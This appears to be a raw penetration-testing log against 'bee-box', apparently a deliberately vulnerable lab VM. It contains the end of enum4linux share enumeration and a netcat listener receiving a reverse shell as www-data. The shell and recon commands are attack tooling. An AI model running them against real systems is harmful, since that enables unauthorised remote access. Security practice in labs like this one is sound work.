description:[\\bee-box\Xerox_Phaser_8500DN_PS:7,,Xerox Phaser 8500DN PS]
comment:[Xerox Phaser 8500DN PS]
flags:[0x800000]
name:[\\bee-box\Snagit_9:6]
description:[\\bee-box\Snagit_9:6,,Snagit 9]
comment:[Snagit 9]
flags:[0x800000]
name:[\\bee-box\Send_To_OneNote_2010:8]
description:[\\bee-box\Send_To_OneNote_2010:8,,Send To OneNote 2010]
comment:[Send To OneNote 2010]
flags:[0x800000]
name:[\\bee-box\PDF]
description:[\\bee-box\PDF,,PDF]
comment:[PDF]
flags:[0x800000]
name:[\\bee-box\Microsoft_XPS_Document_Writer:1]
description:[\\bee-box\Microsoft_XPS_Document_Writer:1,,Microsoft XPS Document Writer]
comment:[Microsoft XPS Document Writer]
flags:[0x800000]
name:[\\bee-box\HP_Officejet_6500_E710a-f_(Network):5]
description:[\\bee-box\HP_Officejet_6500_E710a-f_(Network):5,,HP Officejet 6500 E710a-f (Network)]
comment:[HP Officejet 6500 E710a-f (Network)]
flags:[0x800000]
name:[\\bee-box\Fax_-_HP_Officejet_6500_E710a-f_(Network):4]
description:[\\bee-box\Fax_-_HP_Officejet_6500_E710a-f_(Network):4,,Fax - HP Officejet 6500 E710a-f (Network)]
comment:[Fax - HP Officejet 6500 E710a-f (Network)]
flags:[0x800000]
name:[\\bee-box\Fax:2]
description:[\\bee-box\Fax:2,,Fax]
comment:[Fax]
flags:[0x800000]
name:[\\bee-box\CutePDF_Writer:3]
description:[\\bee-box\CutePDF_Writer:3,,CutePDF Writer]
comment:[CutePDF Writer]
enum4linux complete on Tue Nov 12 19:10:26 2019
root@kali:~#






root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [172.17.139.221] from bee-box [169.254.4.174] 53332
Linux bee-box 2.6.24-16-generic #1 SMP Thu Apr 10 13:23:42 UTC 2008 i686 GNU/Linux
02:16:19 up 1:38, 3 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
root pts/0 :1.0 00:39 1:37 0.00s 0.00s -bash
bee tty7 :0 00:39 6:18m 8.70s 0.10s x-session-manag
bee pts/1 :0.0 02:09 6:23m 0.08s 0.08s bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off